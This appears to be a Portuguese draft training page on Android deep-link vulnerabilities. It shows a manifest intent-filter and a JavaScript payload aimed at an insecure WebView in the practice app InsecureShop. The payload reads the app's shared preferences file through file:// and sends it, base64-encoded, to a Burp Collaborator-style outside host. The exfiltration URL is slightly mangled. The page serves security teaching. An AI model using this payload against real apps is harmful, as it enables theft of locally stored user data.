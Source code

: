   title: 'Vulnerabilidades: Deep Link',
  innerTitle: 'Deep Link',
  canary: true
}

> [!CANARY]
> Essa é uma versão inicial, e pode conter erros ou informações desatualizadas. O conteúdo está em desenvolvimento e será atualizado conforme necessário.

## O que é Deep Link?
Deep linking é uma técnica que permite que URLs específicas dentro de um aplicativo sejam acessadas diretamente, em vez de apenas abrir a tela inicial do aplicativo. Isso é útil para direcionar usuários a conteúdos específicos, como produtos, artigos ou perfis de usuário.

```xml filename="AndroidManifest.xml" showLineNumbers highlight={6}
<intent-filter ...>
    <action android:name="android.intent.action.VIEW" />
    <category android:name="android.intent.category.DEFAULT" />
    <category android:name="android.intent.category.BROWSABLE" />
    
    <data android:scheme="hackingforce" android:host="training" />
</intent-filter>
```

## Explorando WebView's

```javascript filename="webview.js" showLineNumbers
function exfiltrateFile(filePath, callback) {
  const request = new XMLHttpRequest();
  
  request.open("GET", "file://" + filePath, true);
  request.onload = function(event) {
    callback(btoa(request.responseText));
  }
  request.onerror = function(event) {
    document.write(event);
    callback(null);
  }
  request.send();
}
const FILE_PATH = "/data/user/0/com.insecureshop/shared_prefs/Prefs.xml";

exfiltrateFile(FILE_PATH, (contents) => {
  const exfil = new XMLHttpRequest();
  
  exfil.open("GET", " < https: //burpcolloboratorurl.com?file=>" + contents, true);
  exfil.onload = function(event) {
    document.write(" < /br>[+] File successfully exfiltrated to remote server");
  }
  exfil.onerror = function(event) {
    document.write(event);
    callback(null);
  }
  exfil.send();
});
```